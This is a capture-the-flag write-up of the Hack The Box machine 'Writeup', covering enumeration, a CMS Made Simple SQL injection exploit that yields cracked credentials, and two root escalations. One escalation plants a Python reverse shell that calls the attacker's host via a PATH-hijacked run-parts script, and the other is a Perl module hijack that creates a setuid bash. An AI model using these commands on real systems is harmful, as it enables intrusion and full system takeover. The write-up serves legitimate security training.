



* Table of contents
{:toc}

# Machine Info
**IP**: 10.10.10.138

**OS**: Linux

**Difficulty**: Easy

# Enumeration I

## **nmap**

```
$ nmap -T4 -p- 10.10.10.138
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-27 23:30 EDT
Nmap scan report for 10.10.10.138
Host is up (0.028s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 185.73 seconds
```

### **Further Enumeration of Open Services**
```
$ sudo nmap -T4 -p22,80 -A 10.10.10.138 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-27 23:35 EDT
Nmap scan report for 10.10.10.138
Host is up (0.061s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/writeup/
|_http-title: Nothing here yet.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%), Linux 4.4 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   48.58 ms 10.10.16.1
2   74.05 ms 10.10.10.138

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.09 seconds
```
## **Web Enumeration**
Navigating to the IP address leads to the below webpage.
### http://10.10.10.138/


And the other URL identified by the advanced nmap scan leads us to a writeup repo created by the author.

### http://10.10.10.138/writeup/


The two webpages itself do not contain any information and are static in nature. However, a slight difference between the footers on the two pages stands out. The latter says that the website was not created using vim, so we take a look at the tech stack using wappalyzer and whatweb.

### **Wappalyzer and Whatweb**
Wappalyzer tells us that the webpage was built using CMS Made Simple.

The same is confirmed with whatweb as well.
```
$ whatweb http://10.10.10.138/writeup/
http://10.10.10.138/writeup/ [200 OK] Apache[2.4.25], CMS-Made-Simple, Cookies[CMSSESSID9d372ef93962], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.25 (Debian)], IP[10.10.10.138], MetaGenerator[CMS Made Simple - Copyright (C) 2004-2019. All rights reserved.], Title[Home - writeup]
```

If we check the results for the welcome page hosted on the IP, we only find Apache.
```
$ whatweb http://10.10.10.138/
http://10.10.10.138/ [200 OK] Apache[2.4.25], Country[RESERVED][ZZ], Email[jkr@writeup.htb], HTTPServer[Debian Linux][Apache/2.4.25 (Debian)], IP[10.10.10.138], Title[Nothing here yet.]
```

# Vulnerabilities
Searching for Apache 2.4.25 exploits does not throw up anything. However, CMS Made Simple has a SQL injection vulnerability that could be exploitable (https://www.exploit-db.com/exploits/46635). Since we don't know the version of the software in use, we can run the exploit and see if it works.

# Exploitation
Downloading the code to our working directory, we run it with the required parameters.

```
$ python 46635.py -u http://10.10.10.138/writeup --crack -w /usr/share/wordlists/rockyou.txt 
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62****************************f7
[+] Password cracked: ra******y9
```
And *voilà*, we get a set of credentials.
### ***Note: Always verify the commands you are running!!***
```
While running the exploit for the first time, I left out the /writeup part of the URL and did not get any result. Consequently, I wasted a lot of time in searching for other ways to gain access. I was not able to find anything and stepped away from it. The next day, when I was looking over my steps, I found the error and got the exploit to work.
```
## **Gaining a foothold**
We can now connect to the machine via SSH and capture the user flag.

```
$ ssh jkr@10.10.10.138
The authenticity of host '10.10.10.138 (10.10.10.138)' can't be established.
ECDSA key fingerprint is SHA256:TEw8ogmentaVUz08dLoHLKmD7USL1uIqidsdoX77oy0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.138' (ECDSA) to the list of known hosts.
jkr@10.10.10.138's password: 
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jkr@writeup:~$ id
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
```

## **Enumeration II**
I found this step to be really hard. I went through my privilege escalation list, one by one, but found nothing that stood out. Finally, I went to 0xdf's writeup for "writeup"(you can find it [here](https://0xdf.gitlab.io/2019/10/12/htb-writeup.html#)) and found that I was on the right track. 

### **Using pspy**
Pspy lists the process running on the system at real time and helps find processes that would have been missed otherwise. The first time that I ran the tool, the only highlight was a cleanup script that ran every minute.

```
2021/07/27 22:42:01 CMD: UID=0    PID=14214  | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
2021/07/27 22:43:01 CMD: UID=0    PID=14215  | /usr/sbin/CRON 
2021/07/27 22:43:01 CMD: UID=0    PID=14216  | /usr/sbin/CRON 
2021/07/27 22:43:01 CMD: UID=0    PID=14217  | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
2021/07/27 22:44:01 CMD: UID=0    PID=14218  | /usr/sbin/CRON 
2021/07/27 22:44:01 CMD: UID=0    PID=14219  | /usr/sbin/CRON 
2021/07/27 22:44:01 CMD: UID=0    PID=14220  | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
```
But the script was unaccessible and I could not find anything else.

At this point, having literally tried everything I could, I read through 0xdf's writeup to see if I had missed anything till this point. Turns out, I did not check what happens when a new user logs in. Keeping the pspy process running, I fired up a new tab and connected to the machine again. Lo and behold, we find a bash command being executed immediately after the log in.

```
2021/07/27 22:44:04 CMD: UID=0    PID=14221  | sshd: [accepted]
2021/07/27 22:44:04 CMD: UID=102  PID=14222  | sshd: [net]       
2021/07/27 22:44:05 CMD: UID=0    PID=14223  | sshd: jkr [priv]  
2021/07/27 22:44:05 CMD: UID=0    PID=14224  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2021/07/27 22:44:05 CMD: UID=0    PID=14225  | run-parts --lsbsysinit /etc/update-motd.d 
2021/07/27 22:44:05 CMD: UID=0    PID=14226  | /bin/sh /etc/update-motd.d/10-uname 
```

## **Privilege Escalation**
The run-parts script is run every time a new user logs in. So, if we can modify it to our advantage, we could possible elevate our privilege.

Looking at the command being run, we can see the PATH value where it will search for the run-parts script. Checking the /usr/local/sbin path, we find that we have write-access to it as a member of the "staff" group and place the modified script there.

```
jkr@writeup:~$ ls -ld /usr/local/sbin/
drwx-wsr-x 2 root staff 12288 Apr 19 04:11 /usr/local/sbin/
jkr@writeup:~$ touch /usr/local/sbin/run-parts
jkr@writeup:~$ cat /usr/local/sbin/run-parts
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.173",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

jkr@writeup:~$ ls -l /usr/local/sbin/run-parts
-rw-r--r-- 1 jkr staff 230 Jul 27 22:53 /usr/local/sbin/run-parts
jkr@writeup:~$ chmod +x /usr/local/sbin/run-parts
```
With our script in place and netcat listener running, connecting to the machine again gives us a shell with root privilege.

```
$ nc -nvlp 4444                
listening on [any] 4444 ...
connect to [10.10.16.173] from (UNKNOWN) [10.10.10.138] 54296
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
```

## **Alternate Escalation Path**
Although I did not think of this, 0xdf's walkthrough tells us how we could have exploited the cleanup script that was being run every minute. 

When a Perl script is run, Perl attempts to load modules required for successful execution. If we can modify any of the modules and add our code, we can possibly elevate our privilege. 

Following the steps, we find that the configured "path" value for Perl contains two directories that do not exist which we can use to our advantage.

```
jkr@writeup:~$ perl -MData::Dumper -e 'print Dumper \%INC'
$VAR1 = {
          'constant.pm' => '/usr/share/perl/5.24/constant.pm',
          'XSLoader.pm' => '/usr/share/perl/5.24/XSLoader.pm',
          'warnings/register.pm' => '/usr/share/perl/5.24/warnings/register.pm',
          'strict.pm' => '/usr/share/perl/5.24/strict.pm',
          'Carp.pm' => '/usr/share/perl/5.24/Carp.pm',
          '/etc/perl/sitecustomize.pl' => '/etc/perl/sitecustomize.pl',
          'overloading.pm' => '/usr/share/perl/5.24/overloading.pm',
          'Data/Dumper.pm' => '/usr/lib/x86_64-linux-gnu/perl/5.24/Data/Dumper.pm',
          'bytes.pm' => '/usr/share/perl/5.24/bytes.pm',
          'warnings.pm' => '/usr/share/perl/5.24/warnings.pm',
          'Exporter.pm' => '/usr/share/perl/5.24/Exporter.pm',
          'overload.pm' => '/usr/share/perl/5.24/overload.pm'
        };
jkr@writeup:~$ perl -e 'print join(":",@INC)'
/etc/perl:/usr/local/lib/x86_64-linux-gnu/perl/5.24.1:/usr/local/share/perl/5.24.1:/usr/lib/x86_64-linux-gnu/perl5/5.24:/usr/share/perl5:/usr/lib/x86_64-linux-gnu/perl/5.24:/usr/share/perl/5.24:/usr/local/lib/site_perl:/usr/lib/x86_64-linux-gnu/perl-basejkr@writeup:~$ 
jkr@writeup:~$ perl -e 'print join("\n",@INC)' | while read dir; do ls -ld $dir; done
drwxr-xr-x 4 root root 4096 Apr 19  2019 /etc/perl
ls: cannot access '/usr/local/lib/x86_64-linux-gnu/perl/5.24.1': No such file or directory
ls: cannot access '/usr/local/share/perl/5.24.1': No such file or directory
drwxr-xr-x 11 root root 4096 Apr 19  2019 /usr/lib/x86_64-linux-gnu/perl5/5.24
drwxr-xr-x 16 root root 4096 Apr 19  2019 /usr/share/perl5
lrwxrwxrwx 1 root root 6 Nov 29  2018 /usr/lib/x86_64-linux-gnu/perl/5.24 -> 5.24.1
lrwxrwxrwx 1 root root 6 Nov 29  2018 /usr/share/perl/5.24 -> 5.24.1
ls: cannot access '/usr/local/lib/site_perl': No such file or directory
jkr@writeup:~$ mkdir -p /usr/local/lib/x86_64-linux-gnu/perl/5.24.1
jkr@writeup:~$ cp /usr/share/perl/5.24/strict.pm /usr/local/lib/x86_64-linux-gnu/perl/5.24.1/
jkr@writeup:~$ nano /usr/local/lib/x86_64-linux-gnu/perl/5.24.1/strict.pm 
jkr@writeup:~$ diff /usr/local/lib/x86_64-linux-gnu/perl/5.24.1/strict.pm /usr/share/perl/5.24/strict.pm
11d10
<     system "cp /bin/bash /tmp/bash; chmod u+s /tmp/bash";
```

With our malicious module in place, we just need to wait for a minute. The next time the cleanup script runs, the copy of /bin/bash is created in the /tmp folder and can be run to gain root privilege.

```
jkr@writeup:~$ ls -l /tmp/bash 
-rwsr-xr-x 1 root root 1099016 Jul 28 09:44 /tmp/bash
jkr@writeup:~$ /tmp/bash -p
bash-4.4# id
uid=1000(jkr) gid=1000(jkr) euid=0(root) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
bash-4.4# whoami
root
```
### ***Note***
```
Default modules imported during execution of a script can be utilised for arbitrary code execution by overwriting them.
```

# Post-Exploitation
## **User Flag**
```
jkr@writeup:~$ cat user.txt 
d4****************************78
```
## **Root Flag**
```
bash-4.4# cat root.txt
ee****************************26
```

# Reference
1. pspy: https://github.com/DominicBreuker/pspy
2. 0xdf's walkthrough: https://0xdf.gitlab.io/2019/10/12/htb-writeup.html#